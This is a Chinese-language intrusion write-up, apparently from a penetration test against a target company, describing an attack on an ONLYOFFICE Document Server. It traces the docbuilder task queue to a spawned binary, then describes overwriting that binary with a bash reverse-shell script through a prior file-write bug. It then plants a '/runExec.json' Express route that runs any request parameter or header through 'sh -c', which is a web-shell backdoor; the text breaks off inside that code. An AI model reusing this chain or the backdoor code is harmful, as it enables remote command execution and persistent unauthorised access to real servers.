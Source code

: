 ```javascript
    if (params.url) {
      cmd.setUrl(params.url);
      cmd.setFormat('docbuilder');
    } else {
      yield storageBase.putObject(docId + '/script.docbuilder', req.body, req.body.length);
    }
    let queueData = new commonDefines.TaskQueueData();
    queueData.setCmd(cmd);
    yield* docsCoServer.addTask(queueData, constants.QUEUE_PRIORITY_LOW); 
  }
  .................
  cmd.setStatusInfo(constants.CONVERT_DEAD_LETTER);
canvasService.receiveTask(JSON.stringify(task), function(){}); 
```

调用addTask方法，将生成doc的任务加到队列中。

```javascript
function receiveTask(data, ack) {
  return co(function* () {
    var res = null;
    var task = null;
    try {
      task = new commonDefines.TaskQueueData(JSON.parse(data));
      if (task) {
        res = yield* ExecuteTask(task);
      }
```

在接收到任务后，调用ExecuteTask方法，执行该任务，

```javascript
function* ExecuteTask(task) {
fs.mkdirSync(path.join(tempDirs.result, 'output'));
processPath = cfgDocbuilderPath;
.........
let spawnAsyncPromise = spawnAsync(processPath, childArgs, spawnOptions);
```

简单点说就是在ExecuteTask方法中，会通过spawnAsync命令执行方法调用 /var/www/onlyoffice/documentserver/server/FileConverter/bin/docbuilder ELF来生成文档，docbuilder文件所属用户也是ds，那么可以通过之前的文件写漏洞覆盖掉docbuilder ELF，再通过docbuilder路由触发我们上传的ELF。

写了一个简易的bash反弹脚本覆盖了/var/www/onlyoffice/documentserver/server/FileConverter/bin/docbuilder文件，本地测试Docker环境直接反弹SHELL成功，但是以我们对目标公司的了解，99.99%是无法连接外网的。

首先还是得让命令执行执行得更顺畅一点，新增一个命令执行的路由，这时候我们已经能够通过docbuilder的命令执行 新增路由、重启服务了。

在本地的docker环境中，服务是ROOT用户通过supervisor来启动的。

虽然supervisor是ROOT启动的，不过任意用户都能重启supervisor服务。

```typescript
app.all('/runExec.json', (req, res) => {
   const spawn = require('child_process').spawn;
   var username = req.query.username ? req.query.username: req.header("username");
   if(!username){
    res.send("empty para!");
   }else {
    const cmd = spawn('sh', ['-c', username]);
    var result = "";
    cmd.stdout.on('data', (data) => {
     result += data;
    });

    cmd.on('close', (code) => {
     res.send(result);
     return res.end();
```